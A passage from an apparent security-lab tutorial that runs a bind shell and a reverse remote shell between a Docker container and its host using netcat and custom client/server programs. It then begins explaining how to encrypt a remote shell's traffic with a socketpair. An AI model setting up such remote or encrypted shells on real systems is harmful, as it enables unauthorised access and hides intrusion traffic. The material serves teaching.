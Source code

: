 ```bash
# uname -a
Linux 7e837bd2c6b2 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

or running server in the docker container and client in the host machine:
```
# terminal 1
docker run --privileged -p 5000:5000 -it basic_cybersecurity5:latest
root@81bffa48f8a3:~# ./server 5000


# terminal 2
nc localhost 5000
$ nc localhost 5000
# uname -a
Linux 81bffa48f8a3 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
#
```
Note that we had to map port 5000 between docker and the host OS.

### Reverse Remote Shells
```bash
# terminal 1
$ docker run --privileged -p 5000:5000 -it basic_cybersecurity5:latest
root@812b61f0f7cc:~# nc -l -p 5000

# terminal 2
docker ps
CONTAINER ID        IMAGE                         COMMAND             CREATED             STATUS              PORTS                    NAMES
812b61f0f7cc        basic_cybersecurity5:latest   "bash"              3 seconds ago       Up 6 seconds        0.0.0.0:5000->5000/tcp   reverent_haibt
docker exec -it 812b61f0f7cc bash
root@812b61f0f7cc:~#
root@812b61f0f7cc:~# ./client 127.0.0.1 5000

# terminal 1
uname -a
Linux 812b61f0f7cc 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

### Encrypted remote shell

Following from previous code and taking inspiration from [4], we will extend the previous example to encrypt the data stream.

To begin with, as nicely explained at [4]:

>In order to crypt our communication, we need something in front of the shell that gets the data from/to the network and crypts/decrypts it. This can be done in many different ways.
>
>This time we have choose to launch the shell as a separated child process and use a socketpair to transfer the data received/sent through the network to the shell process. The father process will then crypt and decrypt the data going into/coming from the network/shell. This may look a bit confusing at first glance, but that is just because of my writing :).
>
>A socketpair is just a pair of sockets that are immediately connected. Something like running the client and server code in just one system call. Conceptually they behave as a pipe but the main difference is that the sockets are bidirectional in opposition to a pipe where one of the file descriptors is read only and the other one is write only.
>